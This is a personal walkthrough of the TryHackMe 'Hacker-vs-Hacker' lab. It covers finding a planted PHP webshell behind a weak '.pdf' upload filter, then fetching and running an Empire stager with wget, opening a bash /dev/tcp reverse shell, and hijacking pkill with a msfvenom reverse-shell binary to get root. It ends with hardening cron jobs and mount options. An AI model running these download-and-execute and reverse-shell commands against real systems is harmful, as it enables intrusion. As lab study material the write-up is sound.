

# Hacker-vs-Hacker Helped-Through

Name: Hacker-vs-Hacker
Date:  28/1/23
Difficulty:  Easy
Goals:  
- Research Countermeasures
- Improve the counter measures
- Invent or research booby trapping 
- Get DFIR theory-crafting 
Learnt:
- Practiced Empire
- killing pty /dev/pts prevents some privilege escalation
Beyond Root:
- Booby traps for battlegrounds
- Better \*-shells for persistence - not the shell code just location, naming, parametres


The server of this recruitment company appears to have been hacked, and the hacker has defeated all attempts by the admins to fix the machine. They can't shut it down (they'd lose SEO!) so maybe you can help?

## Recon


The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


THM machine and the comments on the webpages


## Exploit

Testing the file upload

My guess is that the "hacker" is calling out poorly coded php 

cvs directory listing is disabled.


Upload test.pdf

Confirmed suspicions, Al mentions that [Conficker](https://en.wikipedia.org/wiki/Conficker) a computer worm patch the vulnerability after getting RCE to prevent other from exploiting the box after it gained access.

The most interesting part is actually the idea that you have to change you methodology for looking for a specifics that a related to hacking. So fuzzing for the webshell is actually considering how he bypassed the original. And although not staeted on stream this adjustment is:
- Hacker has exploited the file upload form, pictured above.
- This code only checks for if there is has a .pdf in the string with [strpos](https://www.php.net/manual/en/function.strpos.php)
-  So with it being an apache web server the deduction need to be made is that it is exploited either with a file that file.pdf.`$php` or file.`$php`.pdf with `$php` potential being various varients


```bash
ffuf -u http://10.10.72.190/cvs/FUZZ.FUZZ1.FUZZ2 -w /usr/share/seclists/Fuzzing/extensions-most-common.fuzz.txt:FUZZ1 -w /usr/share/seclists/Fuzzing/extensions-most-common.fuzz.txt:FUZZ2 -w webshell-names.txt:FUZZ
```


The capabilities of the attacker can be accessed by the naming of the both the file and the parametre used for code execution, from a pure DFIR perspective this not complex, but also not complex enough to be APT-level. The reason this rather benign points is here is that there are ways to improve this that would indicate the motive:
- If it was a randomized file name it would be harder to find for other APTs
- If the parametre is a randomized string, even if the file was found or leaked out some how at another part of the attack chain traces it code excution for other would be prevented  - as cmd is the parametre
- If it was false flagging this is a fake attack chain laid to for whatever reason present because of something related to overall objectives such that it is required to spend time to false flag
	- Potentially being caught to thow of purple team
	- Misleading purple into not considering more complex forms of persistence


I wanted to go a bit more try hard and use Powershell-Empire as my brain was clouded by covid 
```bash
http://10.10.46.245/cvs/shell.pdf.php?cmd=wget%20http://10.11.3.193/empire.sh

http://10.10.46.245/cvs/shell.pdf.php?cmd=chmod%20+x%20empire.sh

http://10.10.46.245/cvs/shell.pdf.php?cmd=bash%20empire.sh
```


## Foothold

For Two is one and one is none:
```powershell
(Empire: 1B17TKZC) > shell "bash -c 'exec bash -i &>/dev/tcp/10.11.3.193/1338 <&1' &"
```


Counter measure it kills any `python -c 'import pty;pty.spawn("/bin/bash")'` but allows for execution from /dev/shm.


Quick look in the home directory of the lachan user


and in his bash_history


```bash
echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123"
```

` lachlan : thisistheway123 `, but Al did not check the cron


## PrivEsc

We cannot use sudo as we require a tty. But also a very important detail I skimmed over  as I started researching sudo. Al wants to go fast, but second guessing that as the dirty hack solution [krobe got me covered](https://medium.com/@krobesec/hacker-vs-hacker-tryhackme-writeup-1518f88a2c27). The only binary that is hijackable in the path is `pkill`

- Go back to noting each finding never skimp on notes. it is in the picture above.

Just hijack with a msfvenom shell called pkill in the /home/lachlan/bin
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.3.193 LPORT=4444 -f ELF > pkill
```

Then we can just use `scp`
```bash
scp 'pkill' lachlan@10.10.46.245:/home/lachlan/bin/pkill
```
Then the quick chmod o'clock with +x
```bash
thisistheway123
chmod +x bin/pkill
```


## Beyond Root

I really want to make a couple of machines with this kind of path with these kinds of obstacles.

```bash
apt install fail2ban
```

[Change /dev/shm to not allow execution](https://secscan.acron.pl/centos7/1/1/17)
```bash
mount -o remount,noexec,rw,nosuid,relatime /dev/shm
```

Remove the webshells and its process Holo or a HTB ctf did this but did not kill the process.
```bash
* * * * * * root /bin/sleep 10 && for f in `/bin/ls /var/www/html | grep -v .html`; do p=$(ps -aux | grep $f | awk '{print $2}') && kill $p && rm /var/www/html/$f; done
```

Kill ptys
```bash
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill -9 -t pts/$f; done
```